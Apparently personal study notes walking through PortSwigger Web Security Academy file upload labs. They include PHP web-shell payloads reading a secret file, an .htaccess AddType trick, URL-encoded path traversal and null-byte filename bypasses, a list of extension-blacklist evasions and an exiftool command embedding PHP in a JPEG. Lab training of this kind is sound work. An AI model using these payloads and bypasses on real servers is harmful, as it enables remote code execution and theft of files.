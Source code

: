 ```yaml
---
description: >-
  https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities
---
```


# 📑 File Upload vulnerabilities

File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead. This could even include server-side script files that enable remote code execution.

We already did some File uploads in the&#x20;

{% content-ref url="server-side-vulnerabilities.md" %}
[server-side-vulnerabilities.md](server-side-vulnerabilities.md)
{% endcontent-ref %}

### Lab: Web shell upload via path traversal

We start by uploading our php payload and capturing the request:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We saw that we were able to upload the PHP file, but it was as a txt file, the folder must filter out the PHP files, so let's save the PHP file in another directory. If we do a filename ../webshell.php it cuts the ../ but if we encode it to ..%2fwebshell.php it seems to work:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we see when encoding it saves the shell in another directory ->

so i took te req and forwarded it, on the page it showed:

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now we go back on repeater, and we get the file:

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Lab: Web shell upload via extension blacklist bypass

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

This payload will enable us to read the content of the secret file, now let's upload our picture and the request ->

<figure><img src="../../.gitbook/assets/image (845).png" alt=""><figcaption></figcaption></figure>

and with the following request we are able to GET our image:

```
GET /files/avatars/image.png
```

if we try to run a php payload ->

<figure><img src="../../.gitbook/assets/image (846).png" alt=""><figcaption></figcaption></figure>

and if we look at the pretty output:

<figure><img src="../../.gitbook/assets/image (847).png" alt=""><figcaption></figcaption></figure>

We can see on this website that .htaccess files are not very secure:

{% embed url="https://httpd.apache.org/docs/2.4/howto/htaccess.html" %}

So we are going to rename the file .htaccess and change the content:

<figure><img src="../../.gitbook/assets/image (848).png" alt=""><figcaption></figcaption></figure>

```
AddType application/x-httpd-php .shell
```

* `AddType`: This is an Apache directive used to specify how files with certain extensions should be handled by the server.
* `application/x-httpd-php`: This indicates the MIME type of the files. In this case, it specifies that the files are PHP scripts.
* `.shell`: This is the file extension that the directive applies to. In this case, it's `.shell`, meaning any file with this extension will be treated as a PHP script.

And now we take the query back in time and make our malicious file:

<figure><img src="../../.gitbook/assets/image (849).png" alt=""><figcaption></figcaption></figure>

#### Other techniques to bypass file extension blacklist:

* Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: `exploit.php.jpg`
* Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
* Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
* Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
* Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
*   you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip `.php` from the following filename:

    `exploit.p.phphp`

### Lab: Web shell upload via obfuscated file extension

So for the chal we can easily guess it's one of those, and indeed it was:

<figure><img src="../../.gitbook/assets/image (850).png" alt=""><figcaption><p>FP.php%00.jpg</p></figcaption></figure>

And we can now make a GET to the file:

<figure><img src="../../.gitbook/assets/image (851).png" alt=""><figcaption></figcaption></figure>

#### Flawed validation of the file's contents

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

{% embed url="https://exiftool.org/" %}

### Lab: Remote code execution via polyglot web shell upload

We need to create a malicious php file with a JPG header

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

* `exiftool`: This is the command-line utility we're using.
* `-Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>"`: This part sets the comment metadata of the image file to a PHP code snippet. It appears to be intended to embed PHP code into the metadata of the image. The PHP code retrieves the contents of a file located at `/home/carlos/secret` and appends 'START ' before the content and ' END' after the content.
* `<YOUR-INPUT-IMAGE>.jpg`: This is where you would specify the input image file. Replace `<YOUR-INPUT-IMAGE>.jpg` with the path to your actual image file. The `.jpg` extension suggests that the input image file is in JPEG format.
* `-o polyglot.php`: This part specifies the output file name. It instructs ExifTool to save the modified image with the PHP code embedded in its metadata into a file named `polyglot.php`.

We upload the file and if we&#x20;

`GET /files/avatars/polyglot.php`

We can have the password

#### Exploiting file upload race conditions

Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

